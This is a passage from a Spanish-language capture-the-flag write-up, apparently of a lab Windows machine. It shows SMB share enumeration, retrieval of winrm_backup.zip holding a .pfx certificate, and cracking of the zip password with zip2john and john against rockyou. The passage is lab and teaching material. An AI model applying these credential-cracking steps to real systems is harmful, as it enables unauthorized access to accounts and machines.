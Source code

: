 ```
smb: \Dev\> get winrm_backup.zip

getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (2.0 KiloBytes/sec) (average 2.0 KiloBytes/sec)
```
Si seguimos buscando en los directorios encontramos lo siguiente:

```
smb: \HelpDesk\> dir

  .                                   D        0  Mon Oct 25 11:48:42 2021
  ..                                  D        0  Mon Oct 25 11:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 10:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 10:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 10:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 10:57:44 2021
```

Encontramos diversos archivos de **LAPS**, el cual corresponde a una solución de Microsoft que permite administrar las contraseñas de cuentas de administrador local para equipos unidos a un dominio. Sin embargo, no podemos realizar nada con estos archivos, pero vale la pena saber que están implementados.


## Explotación

Volviendo con el **winrm_backup.zip** tenemos:

```
unzip winrm_backup.zip

Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
```

Pide una contraseña, la cual no tenemos, por lo tanto, vamos a intentar crackear dicha contraseña utilizando `zip2john`, el cual extraer un hash que podemos intentar crackear:

```
ip2john winrm_backup.zip > hash
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
```

Utilizando el mismo `john` intentaremos romper este hash:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2023-02-08 01:34) 3.030g/s 10525Kp/s 10525Kc/s 10525KC/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Pudimos encontrar la contraseña, la cual corresponde a **supremelegacy** asi que la utilizaremos para abrir el .zip:
